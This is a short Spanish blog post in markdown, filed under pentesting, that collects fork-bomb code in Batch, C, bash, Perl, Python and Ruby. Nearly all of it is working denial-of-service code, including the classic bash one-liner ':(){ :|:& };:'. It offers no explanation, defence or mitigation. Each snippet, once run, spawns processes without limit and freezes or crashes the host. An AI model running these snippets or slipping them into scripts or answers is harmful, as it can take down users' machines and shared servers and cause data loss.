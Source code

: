 ```yaml
---
title: Tipos de bombas fork
description: 
date: 2015-09-01
lastmod: 2015-09-01
slug: bomba_fork
image: "covers/pentesting.png"
tags:
  - code
  - programacion
  - python
  - linux
  - perl
  - bash
  - bomba
  - fork
categories:
  - Pentesting
---
```



## Ejemplo de una bomba fork

#### Código fuente de una bomba fork programada en Batch funcional en cualquier versión de Microsoft Windows:

```bath
%0|%0
```

O bien, una reacción más rápida:

```bath
:s
start "" %0
goto :s
```


#### Código fuente de una bomba fork programada en UNIX C o C++:

```c
#include <unistd.h>
void main() {
	while(1)
	fork();
}
```


#### Bomba fork para bash de linux

```bash
:(){ :|:& };:
```


#### Perl:

```perl
fork while fork
```


#### Python:
```python
import os
while True:
	os.fork()
```


#### Ruby:
```ruby
def forkbomb
	loop {
		fork {
			forkbomb
		}
	}
	end;
forkbomb
```
